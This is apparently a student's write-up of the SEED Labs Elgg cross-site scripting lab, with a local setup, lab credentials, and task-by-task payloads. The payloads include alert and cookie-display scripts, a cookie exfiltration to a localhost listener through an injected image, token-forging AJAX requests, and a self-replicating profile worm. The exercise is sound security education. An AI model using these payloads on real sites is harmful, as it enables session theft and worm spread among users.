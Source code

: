 * Setup
** Docker Compose Setup
*** cd category-web/Web_XSS_Elgg/Labsetup
*** docker-compose up
*** modify the /etc/hosts file with the following configurations
      10.9.0.5 www.seed-server.com
      10.9.0.5 www.example32a.com
      10.9.0.5 www.example32b.com
      10.9.0.5 www.example32c.com
      10.9.0.5 www.example60.com
      10.9.0.5 www.example70.com
*** Go to www.seed-server.com and if you find the login page then the setup is complete

** Credentials
|----------+-------------|
| UserName | Password    |
|----------+-------------|
| admin    | seedelgg    |
|----------+-------------|
| alice    | seedalice   |
|----------+-------------|
| boby     | seedboby    |
|----------+-------------|
| charlie  | seedcharlie |
|----------+-------------|
| samy     | seedsamy    |
|----------+-------------|


* Task 1
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert("XSS");</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-1-inject-js.png]]


* Task 2
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert(document.cookie);</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-2-display-cookie.png]]


* Task 3 
    Since we are simulating the cookie stealing using a server, we are assuming localhost is the host machine setup by the attacker. 
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>document.write('<img src=http://localhost:5555?c='+escape(document.cookie)+'>');</script>
#+END_SRC
** Screenshot
    j[[./screenshots/task-3-steal-cookie.png]]


* Task 4
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function () {
      var Ajax=null;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // 1
      var token="&__elgg_token="+elgg.security.token.__elgg_token; // 2
      //Construct the HTTP request to add Samy as a friend.
      var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token; 
      //Create and send Ajax request to add friend
      Ajax=new XMLHttpRequest();
      Ajax.open("GET", sendurl, true);
      Ajax.send();
    }
  </script>
#+END_SRC

Here when Alice visits Samy's profile a Samy will be automatically befriended with his profile visitor(victim).
The script attached in the about me section will be executed and that will silently send a request from victim's end.

We need ts and token because this provide authentication,i.e. the attackers request is posing as if as it is coming
from the victim's end.

** Screenshot
[[./screenshots/task-4-victim-befriended.png]]




* Task 5
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function(){
      //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
      //and Security Token __elgg_token
      var username="&name="+elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
      var token="&__elgg_token="+elgg.security.token.__elgg_token;
      var description='&description=<p>Samy is my hero<p>';
      //Construct the content of your url.
      var samyGuid=59;
      var sendurl='http://www.seed-server.com/action/profile/edit';
      var content=username+guid+ts+token+description;
      if(elgg.session.user.guid!=samyGuid) { // 1
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
      }
    }
  </script>
#+END_SRC

Here the line with if condition is very important because, if we change the about me section of even Samy, the attack would only work until Samy visits
his profile next time, after that Samy's 'About Me' section will be changed to '<p>Samy is my hero<p>' and the attack will no longer work since
there is no malacious code in Samy's profile anymore.

So with the line 1 we are guarding our injection so that, samy profile doesn't change with AJAX requests.

** Screenshot
[[./screenshots/task-5-samy-is-my-hero.png]]


* Task 6

** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script id="worm">
    window.onload = function(){
      //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
      //and Security Token __elgg_token
      var username="&name="+elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
      var token="&__elgg_token="+elgg.security.token.__elgg_token;
      //Construct the content of your url.
      var sendurl='http://www.seed-server.com/action/profile/edit';

      var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
      var jsCode = document.getElementById("worm").innerHTML;
      var tailTag = "</" + "script>";
      var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

      var description='&description=<p>Samy is my hero<p>' + wormCode;
      var content=username+guid+ts+token+description;

      var Ajax=new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
    }
  </script>
#+END_SRC


